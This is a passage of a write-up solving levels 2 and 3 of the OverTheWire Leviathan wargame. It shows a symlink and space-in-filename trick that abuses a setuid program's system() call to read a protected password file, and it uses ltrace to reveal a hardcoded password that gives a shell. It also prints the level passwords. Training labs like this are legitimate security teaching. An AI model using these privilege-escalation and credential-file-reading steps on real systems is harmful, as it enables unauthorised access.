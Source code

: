 We have the following error **/bin/cat: bar.txt: No such file or directory** because the file **bar.txt** does not exist. However, the *access()* calls return successfully because the file exists and we have to proper access rights on it. But, the call to *system()* try to read 2 separate files. So, if we create a symbolic link of **/etc/leviathan_pass/leviathan3** named **bar.txt** we should be able to get the password.

```bash
leviathan2@leviathan:/tmp/ax$ ln -s /etc/leviathan_pass/leviathan3 bar.txt
leviathan2@leviathan:/tmp/ax$ ~/printfile "foo.txt bar.txt"
bar
Ahdiemoo1j
```

## Level 03 Solution

Another easy one :)

```bash
$ ssh leviathan3@leviathan.labs.overthewire.org -p 2223

leviathan3@leviathan:~$ ls -la
total 32
drwxr-xr-x  2 root       root        4096 Oct 29 21:17 .
drwxr-xr-x 10 root       root        4096 Oct 29 21:17 ..
-rw-r--r--  1 root       root         220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root        3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan4 leviathan3 10288 Oct 29 21:17 level3
-rw-r--r--  1 root       root         675 May 15  2017 .profile
leviathan3@leviathan:~$ ./level3 
Enter the password> foobar
bzzzzzzzzap. WRONG
```

Let's try the same `ltrace` trick we used in the previous level.

```bash
leviathan3@leviathan:~$ ltrace ./level3
__libc_start_main(0x8048618, 1, 0xffffd784, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                                                      = -1
printf("Enter the password> ")                                                  = 20
fgets(Enter the password> foobar 
"foobar\n", 256, 0xf7fc55a0)                                              = 0xffffd590
strcmp("foobar\n", "snlprintf\n")                                               = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                                                      = 19
+++ exited (status 0) +++
leviathan3@leviathan:~$ ./level3 
Enter the password> snlprintf
[You've got shell]!
$ cat /etc/leviathan_pass/leviathan4
vuH0coox6m
```


## Level 04 Solution
